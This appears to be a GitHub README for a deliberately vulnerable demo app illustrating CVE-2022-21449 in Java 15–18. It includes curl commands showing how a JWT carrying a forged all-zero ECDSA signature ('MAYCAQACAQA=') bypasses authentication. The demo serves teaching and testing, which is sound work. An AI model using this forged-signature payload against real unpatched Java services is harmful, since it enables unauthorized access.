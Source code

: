 
This repository contains a sample web application vulnerable to [CVE-2022-21449](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/), a vulnerability in the Java JDKs 15 to 18 allowing to bypass signature checks using ECDSA signatures (based on elliptic curves).

## Running the application

Run it:

```
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/datadog/jwt-null-signature-vulnerable-app
```

Built it yourself:

```
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a single endpoint that requires authenticating with a valid JWT (with regard to a randomly-generated private key):

```
$ curl localhost:8080 -sSL -D-
HTTP/1.1 401
Content-Type: text/plain;charset=UTF-8
Content-Length: 46
Date: Wed, 20 Apr 2022 14:53:06 GMT

You are not authorized to access this endpoint
```

Specifying an invalid JWT (for instance, signed with any EC256 key) returns an error as well:

```bash
# Generated on https://token.dev/ with the algorithm "ES256"
$ JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.R05LldFQf7kay5-8hPeJYnYD_ehxKAKFXo-t6Qt7ZKUKkQSQowOHeiZBI9ierO1q6AZlJ4GsXFsxhPrj6m4cMg
$ curl localhost:8080 -sSL -D- -H "Authorization: Bearer $JWT"
HTTP/1.1 401
Content-Type: text/plain;charset=UTF-8
Content-Length: 11
Date: Wed, 20 Apr 2022 14:56:04 GMT

Invalid JWT
```

However, specifying an ECDSA signature with `r=s=0` encoded in DER, `MAYCAQACAQA=`, allows us to bypass the JWT verification check!

```bash
$ echo -ne "MAYCAQACAQA=" | base64 -d | openssl asn1parse -inform der
0:d=0  hl=2 l=   6 cons: SEQUENCE
2:d=1  hl=2 l=   1 prim: INTEGER           :00
5:d=1  hl=2 l=   1 prim: INTEGER           :00
```

```bash
# Same JWT as above with the malicious signature
$ JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.MAYCAQACAQA
$ curl localhost:8080 -sSL -D- -H "Authorization: Bearer $JWT"
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 19
Date: Wed, 20 Apr 2022 14:59:18 GMT

Hello, Rick Astley!
```

## Notes

This demo makes of use of the popular [jjwt](https://github.com/jwtk/jjwt) library. 
Similar vulnerabilities are likely to affect other Java-based JWT libraries running on vulnerable JDK versions - the vulnerability does not lie in the libraries themselves, but in the cryptographical primitives provided by the vulnerable JDK.

## Credits

* Disclosure: https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/ by Neil Madden
* This repository: Thomas Etrillard, [Christophe Tafani-Dereeper](https://twitter.com/christophetd)